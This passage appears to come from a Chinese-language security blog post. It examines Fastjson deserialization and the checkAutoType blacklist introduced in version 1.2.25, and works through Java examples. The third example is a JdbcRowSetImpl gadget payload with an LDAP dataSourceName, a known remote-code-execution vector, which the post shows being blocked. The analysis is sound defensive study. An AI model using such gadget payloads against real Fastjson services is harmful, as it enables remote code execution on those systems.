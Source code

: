 这是一个很普通的测试样例，用来将字符串转变为Java对象。执行结果如下

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/3d7f965f988e8e297889dc6d75d8f4b6.png)

这个测试样例在1.2.24版本是可以执行成功的，但在1.2.25版本中却爆出来autoType is not support错误。

这是因为Fastjson 1.2.25版本引入了checkAutotype安全机制。在默认情况下AutoTypeSupport关闭且测试样例中的AutoTypeTest.ForTest类虽然不在黑名单上，但也并不在checkAutotype安全机制白名单上，因此使用上图测试样例在Fastjson 1.2.25版本中反序列化失败。

2. 示例二

在这个示例中，我们将AutoTypeSupport设置为true

```java
public class demo {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonstr = "{\"@type\":\"AutoTypeTest.ForTest\",\"s1\":\"1\"}";
        Object obj = JSON.parseObject(jsonstr);
        System.out.println(obj);
    }
}
```

在开启AutoTypeSupport后，AutoTypeTest.ForTest类反序列化成功

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/81f432dbf98c947a76eab4f798339a02.png)

3. 示例三

这一次换成恶意类，再进行一次实验

```java
public class demo {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonstr = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/ExecTest\"," + " \"autoCommit\":true}";
        Object obj = JSON.parseObject(jsonstr);
        System.out.println(obj);
    }
}
```

动态调试一下经过动态调试可以发现，程序在执行到com/alibaba/fastjson/parser/ParserConfig.java中checkAutoType安全机制时，com.sun.rowset.JdbcRowSetImpl类会触发黑名单，见下图

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/19d24d1278cfdd136f09593ad29112a1.png)

程序将抛出错误

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/5a0becd8ef816df3112cd1d90d1c76aa.png)

我们来看一下Fastjson 1.2.25版本中引入的黑名单中元素都有哪些，见下图

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/0cb5a1002338e425a9dffb00b927d908.png)
